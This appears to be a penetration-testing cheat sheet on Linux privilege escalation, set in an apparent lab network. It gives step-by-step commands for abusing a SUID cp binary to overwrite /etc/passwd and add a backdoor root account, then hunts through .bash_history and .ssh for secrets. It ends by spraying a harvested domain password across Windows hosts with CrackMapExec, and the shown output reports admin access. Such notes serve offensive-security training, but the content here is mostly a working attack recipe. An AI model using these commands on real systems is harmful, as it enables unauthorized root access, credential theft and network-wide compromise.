



+++
title = "Linux PE"
weight = 3
+++

## 1. Escalation using SUID binary
One of the first things you should do with a non-root *nix account is check if there are any SUID binaries.
Search the entire */* directory.

`find / -perm -u=s 2>/dev/null`

```bash
/sbin/mount.cifs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/at
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/bin/ping6
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/bin/mount
/bin/cp
```

Now don't immediatly get excited when you see these, many SUID binaries exist on *nix system by default and their 
exploitability has been thouroughly explored and discounted.  That said you should become familiar with ones that 
exist by default so you can quickly identify ones that stick out, such as **/bin/cp**!

`ls -lah /bin/cp`

```
-rwsr-sr-x 1 root root 148K Feb 18  2016 /bin/cp
```

### 1.1. One of the oldest tricks in the book
There are several ways to pull off this attack, essentially what we can do is leverage our SUID **cp** command 
to overwrite */etc/passwd* with a new version containing everything that was in the original file plus a backdoor 
root account that we control.

`cd /tmp`

* Make two copies of */etc/passwd* one to edit and one to restore after we're done.  We'll have to use cat because 
* if we use **cp** our files will be root owned and unusable for this attack.

`cat /etc/passwd > passwd-old`

`cat /etc/passwd > passwd-new`

* On your own Ubuntu machine, create a valid password hash using openssl

`openssl passwd -1 -salt realhax R3alH@x!`

```
$1$realhax$UFuaLnv22mE1WHpKYr/F30
```

* Use echo to insert a user record at the end of *passwd-new*

`echo 'realhax:$1$realhax$UFuaLnv22mE1WHpKYr/F30:0:0:root:/root:/bin/bash' >> passwd-new`

* Finnaly, use the SUID **/bin/cp** command to replace */etc/passwd* with *passwd-new*

`cp passwd-new /etc/passwd`

Now you should be able to SSH directly into this machine with whatever username and password you specified during 
your openssl command.



## 2. Sensitive .dot files and .dot directories
Linux/UNIX .dot files are notorious for storing juicy secrets like usernames and passwords.
One solid post exploitation procedure is to cd into every users home directory and run `ls -lah` to reveal 
all of that users' .dot files and .dot directories.

```bash
total 40K
drwx------  6 root root 4.0K Apr  7 18:32 .
drwxr-xr-x 23 root root 4.0K Jan 26 08:41 ..
-rw-------  1 root root  464 Apr  7 12:09 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Apr  7 18:32 .cache
drwxr-xr-x  2 root root 4.0K Jan 28 12:53 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4.0K Apr  7 12:09 scripts
drwx------  2 root root 4.0K Jan 28 13:00 .ssh
-rw-------  1 root root  715 Apr  7 12:09 .viminfo
root@kepler-linsrv14:~# 
```

Right away you should be interested in the *.ssh* directory as it may contain an SSH private key which you could 
use to access additional hosts.

By far the most interesting .dot file in my humble opinion is *.bash_history*

`cat .bash_history`
```
cat .bash_history 
cat ~/.bash_history 
ls -lah
cd
cd /etc/
ls
grep net .
grep net *
cd
ls -lah
cd .ssh/
ls
ls -lah
cd ..
ls
mkdir scripts
cd scripts/
ls
vim checkdomain.sh
ls -lah
cd
clear
cd /etc/
cd network
ls
cat i
cat interfaces
cd
cd scripts/
ls
echo 'username:neil.degrasse' >> checkdomain.sh 
echo 'password:@mbrosia1543!_!' >> checkdomain.sh 
vim checkdomain.sh 
chmod 755 checkdomain.sh 
./checkdomain.sh 
rm checkdomain.sh 
ls -lah
ls -lah /bin/cp
exit
```



Take a look at the *~/scripts* directory.  The root user appears to have since deleted the **checkdomain.sh** script
but it seems to have contained credentials at one point in time.  Based on the name of the script I would guess they 
are Active Directory credentials.  Let's try them with CrackMapExec.

First try them on a single machine to make sure they are valid.  If they work, try them on all your Windows 
targets to see what sort of access they have.

`cme smb hosts/windowxs.txt -u neil.degrasse -p '@mbrosia1543!_!'`

```bash
EINSTEIN-DC01    [*] Windows 10.0 Build 20348 x64 (name:EINSTEIN-DC01) (domain:Sciencerocks.local) (signing:True) (SMBv1:False)
EINSTEIN-DC01    [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
KEPLER-LINSRV14  [*] Windows 6.1 (name:KEPLER-LINSRV14) (domain:) (signing:False) (SMBv1:True)
FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
HAWKINGWINSRV19  [*] Windows 10.0 Build 20348 x64 (name:HAWKINGWINSRV19) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
KEPLER-LINSRV14  [+] \neil.degrasse:@mbrosia1543!_! 
FEYNMAN-WINSRV1  [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
HAWKINGWINSRV19  [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
```

Looks like these credentials have Domain Admin privileges!


